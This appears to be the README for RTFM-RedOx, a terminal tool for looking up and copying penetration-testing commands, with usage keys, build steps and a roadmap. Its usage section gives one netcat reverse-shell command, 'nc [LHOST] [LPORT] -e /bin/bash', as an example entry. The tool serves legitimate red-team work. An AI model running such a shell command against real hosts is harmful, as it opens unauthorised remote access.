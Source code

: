 RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin.  All without the need to leave your terminal to search through notes or open a browser window, or continually run a python script with a lot of switches you'll never remember.  It's basically like having a terminal history and history search for commands you never type in your terminal but often type when you have a shell on a remote host or when interacting with a vulnerable web app.  That being said, the database also contains many commands you'd also run on your attack machine for things like nmap, impacket scripts (adding as I go), crackmapexec, and 

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I will be gradually adding new commands and pushing the edited db file to the repository.    


## Usage
```
Ctrl+r           Enter quick search mode to dynamically find commands as you type.
Ctrl+c           Copy currently selected command to clipboard.
Ctrl+u           URL-encode and then copy currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from clipboard
info             Display info on the currently selected command.
env              Show currently set user variables
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           update database columns of currently selected command e.g. 'update comment bash reverse shell'.
Esc              Exit current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

**Issues**
Debian distributions: If the linker fails during build, install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

Kali: Sometimes the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in terminal.  And in some cases Ctrl+h stops working so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues. 

Arch: No known issues

Mac M1: Screen flicker when using up/down arrows 

Windows: Currently not supported because Termion does not work on windows.  I'll switch to crossterm at some point.


## To Add
- [x] After adding a new command to the db select it as the current command.
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Continue to updating database with newer commands for things like Bloodhound,ffuf,feroxbuster,Rubeus,Crackmapexec,Chisel,SSHuttle, etc.
- [ ] Tab auto complete for best match while in search mode.
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Add search capability for text based/markdown notes.    
    - Root directory for user's notes will be supplied in a CLI variable/Config file.
    - Do a basic grep for a search term
    - Return dynamic list of selectable pathnames along with line the search term found in file
    - Default application to open file will be set via CLI variable/config file
    - When file is selected editor name plus path is copied to clipboard
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare so I can create a release build.

